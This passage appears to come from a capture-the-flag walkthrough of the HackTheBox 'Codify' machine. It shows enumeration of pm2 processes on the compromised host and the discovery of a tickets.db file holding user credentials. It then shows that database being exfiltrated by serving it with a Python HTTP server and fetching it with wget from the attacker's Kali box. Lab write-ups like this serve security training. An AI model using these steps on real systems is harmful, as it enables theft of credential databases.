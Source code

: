 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
svc@codify:~$ pm2 ps
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Show information about the process

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
svc@codify:~$ pm2 desc 0
pm2 desc 0
 Describing process with id 0 - name index 
┌───────────────────┬───────────────────────────────────────┐
│ status            │ online                                │
│ name              │ index                                 │
│ namespace         │ default                               │
│ version           │ N/A                                   │
│ restarts          │ 0                                     │
│ uptime            │ 33m                                   │
│ script path       │ /var/www/editor/index.js              │
│ script args       │ N/A                                   │
│ error log path    │ /home/svc/.pm2/logs/index-error-0.log │
│ out log path      │ /home/svc/.pm2/logs/index-out-0.log   │
│ pid path          │ /home/svc/.pm2/pids/index-0.pid       │
│ interpreter       │ node                                  │
│ interpreter args  │ N/A                                   │
│ script id         │ 0                                     │
│ exec cwd          │ /home/svc                             │
│ exec mode         │ cluster_mode                          │
│ node.js version   │ 18.17.1                               │
│ node env          │ N/A                                   │
│ watch & reload    │ ✘                                     │
│ unstable restarts │ 0                                     │
│ created at        │ 2023-09-12T17:19:27.612Z              │
└───────────────────┴───────────────────────────────────────┘
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Found the directory **/var/www/contact**
Directory contains index.js and tickets.db
Inspecting index.js, we see it saves user credentials to the db
Started a python http server to download tickets.db


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
svc@codify:/var/www/contact$ python3 -m http.server 5555
python3 -m http.server 5555
10.10.14.6 - - [12/Nov/2023 05:04:23] "GET /tickets.db HTTP/1.1" 200 -
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Codify/files]
└─$ wget http://codify.htb:5555/tickets.db                                                         
--2023-11-12 00:04:32--  http://codify.htb:5555/tickets.db
Resolving codify.htb (codify.htb)... 10.129.65.42
Connecting to codify.htb (codify.htb)|10.129.65.42|:5555... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20480 (20K) [application/octet-stream]
Saving to: ‘tickets.db’

tickets.db                                         100%[================================================================================================================>]  20.00K  --.-KB/s    in 0.1s    

2023-11-12 00:04:33 (151 KB/s) - ‘tickets.db’ saved [20480/20480]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
